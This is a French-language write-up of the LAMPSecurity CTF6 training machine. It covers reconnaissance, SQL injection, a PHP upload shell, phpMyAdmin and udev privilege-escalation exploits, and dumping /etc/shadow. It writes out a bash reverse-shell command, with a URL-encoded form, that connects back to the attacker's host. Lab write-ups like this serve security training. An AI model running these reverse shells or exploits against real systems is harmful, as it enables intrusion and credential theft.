# LAMPSecurity: CTF6

## Détails de la machine

**Nom :** LAMPSecurity: CTF6  
**Date de sortie :** 29 Juin 2009  
**Lien de téléchargement :** [http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF6/lampsecurity\_ctf6.zip/download](http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF6/lampsecurity_ctf6.zip/download)  
**Niveau :** Facile  
**Objectif\(s\) :** obtenir un "root"  
**Description :**`The LAMPSecurity project is an effort to produce training and benchmarking tools that can be used to educate information security professionals and test products. Please note there are other capture the flag exercises (not just the latest one). Check the SourceForge site to find other exercises available (http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/).  
These exercises can be used for training purposes by following this documentation. Alternatively you may wish to test new tools, using the CTF virtual machines as targets. This is especially helpful in evaluating the effectiveness of vulnerability discovery or penetration testing tools.`

## Reconnaissance

Votre cible, si vous l'acceptez sera désignée par `netdiscovery` :



On scanne les services de la belle, comme d'habitude avec `nmap` :



Rien de très particulier ici, du SSH, un serveur web, un service MySQL sur le port 3306. A noter tout de même un serveur web sur le port 443.

### Serveur HTTP \(port 80\)

Tout en commençant la reconnaissance manuelle on peut tout de suite lancer un `nikto` dont voici les résultats :



Plusieurs URLs intéressants à ne pas oublier de visiter après notre petite reconnaissance :

* /files
* /lib
* /mail
* /phpmyadmin
* /sql

La page d'accueil du serveur HTTP présente la page d'un revendeur de widgets. On remarque bien évidemment les quelques messages postés par l'utilisateur "admin", un lien vers un webmail, des informations sur les technologies utilisées \(PHP, MySQL, CenOS\) et pour terminer des noms/prénoms du staff :



Ni une ni deux, l'injection SQL présente au niveau du paramètre "id" permettant d'identifier un billet :

Les différentes URLs sont intéressantes mais sans doute facultatives : on y retrouve un script SQL qui permet de connaitre des informations sur la base de données \(mais bon on va pas se mentir `sqlmap` en aura pas besoin\), un répertoire d'images, le phpMyAdmin ou encore le client mail.

#### phpMyAdmin

Le phpMyAdmin disponible sur le serveur est une version 3.0.0. Il est possible de savoir cela en allant vérifier l'URL http://192.168.1.29/phpmyadmin/README. Cette version est vulnérable à une RCE :



### Serveur HTTP \(port 443\)

Il s'agit en fait du même si que celui présent sur le port 80, déçu 😞 .

## Exploitation

### Injection SQL

Ici on ne s'embête pas, `sqlmap` à la rescousse. Il y a deux bases intéressantes, la base "cms" qui correspond au site web, ainsi que la base "roundcube" qui correspond au webmail :



Pas de mot de passe de disponible dans la table "users" de la base de données "roundcube", mais on récupère à la place le mot de passe de mysql :



### Injection de code

On s'authentifie grâce à notre compte fraîchement récupéré, puis nous voyons qu'il est possible d'ajouter un événement via le bouton "Add Event". Sans le moindre effort apparaît déjà deux XSS stockées grâce au champ "Titre" et "Description" :


`Ma machine ayant plantée à ce moment dû à un effet kiss kool ayant une origine inconnue, l'IP de la victime devient maintenant 192.168.1.30`


On continue avec l'option de joindre un fichier avec l’événement \(ici qui contient un script PHP appelant la méthode `phpinfo()`\) :



Il suffit ensuite d'aller directement sur le lien de l'image et :



Vous désirez bien un peu de `msfvenom` ensuite ?



Nous voici dans la place avec notre shell limité :



### PhpMyAdmin \(CVE-2009-1151\)

Etant donné que nous avions déjà identifié l'injection de code au niveau du phpMyAdmin, je me suis amusé à l'exploiter également. Il suffit tout d'abord d'exécuter l'exploit "8921.sh" disponible, puis de renseigner l'URL suivante avec la commande désirée :



J'ai légèrement galéré pour récupérer un shell propre, car netcat ne semblait pas passer. J'ai alors utilisé `bash` avec la commande suivante : `bash -i >& /dev/tcp/adresse_ip/port 0<&1` :

Pour cela que cela fonctionne via le navigateur j'ai tout d'abord encodé le tout en encodage URL soit :  
c=%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%31%30%33%2f%35%35%35%35%20%30%3e%26%31 :



Côté Kali un simple `netcat` en écoute et lors de l'exécution de l'exploit :



## Élévation de privilèges

On récupère la version du noyau afin de voir s'il est possible de l'exploiter :



Bonne nouvelle, une recherche sous Google nous indique que la version 2.6 de Linux est vulnérable à la CVE-2009-1185. Il s'agit en fait d'une vulnérabilité du gestionnaire de périphériques udev qui accepte des messages NETLINK de la part des utilisateurs locaux alors qu'il ne devrait les accepter seulement s'ils proviennent de l'espace noyau. On récupère donc l'exploit \([https://www.exploit-db.com/exploits/8478](https://www.exploit-db.com/exploits/8478)\) puis on l'exécute :



Nous sommes "root", travail terminé

## Conclusion

Cette machine suit les mêmes règles que ces petites sœurs, et cela nous va très bien. Rien de très difficile à part l'exploit qui est un peu capricieux. Une fois "root" j'ai récupéré le fichier "/etc/shadow" afin de voir si certains mots de passe étaient guessable ou bruteforcable par exemple \(dans le cas où on serait passé à côté de la faille web\) :



Certains comptes étaient donc bruteforcables car les mots de passe étaient présents dans le dictionnaire "rockyou.txt".

